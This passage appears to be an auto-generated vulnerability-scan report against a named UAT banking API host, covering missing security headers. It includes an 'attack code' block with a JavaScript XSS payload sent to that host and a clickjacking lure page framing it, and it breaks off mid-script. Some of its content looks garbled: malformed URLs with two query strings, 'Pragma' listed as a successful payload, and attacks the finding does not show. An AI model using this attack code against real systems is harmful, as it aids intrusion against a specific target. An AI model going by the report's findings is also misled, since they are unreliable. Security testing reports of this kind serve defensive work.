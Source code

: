 **🛡️ Prevention Methods:**
- Implement Content Security Policy (CSP)
- Set X-Frame-Options to prevent clickjacking
- Enable Strict-Transport-Security (HSTS)
- Set X-Content-Type-Options to nosniff
- Configure Referrer-Policy
- Set Permissions-Policy for feature control

**📋 Testing Commands:**
```bash
# Test 1: Cache-Control
curl -X GET "https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?input=Cache-Control"

```

---

### 7. Security Headers Vulnerability

**🎯 Target:** `https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false`

**📝 Description:** Missing security headers expose the application to various attacks including XSS, clickjacking, and protocol downgrade attacks.

**💥 Impact:** XSS, clickjacking, protocol downgrade, MIME confusion attacks, information disclosure

**🔍 CVSS Score:** 6.5 (Medium)

**📊 CVSS Details:**
- **Attack Vector:** Network
- **Complexity:** Low
- **Privileges Required:** None
- **User Interaction:** Required
- **Scope:** Unchanged
- **Confidentiality:** Low
- **Integrity:** Low
- **Availability:** None

**🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `Pragma`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
```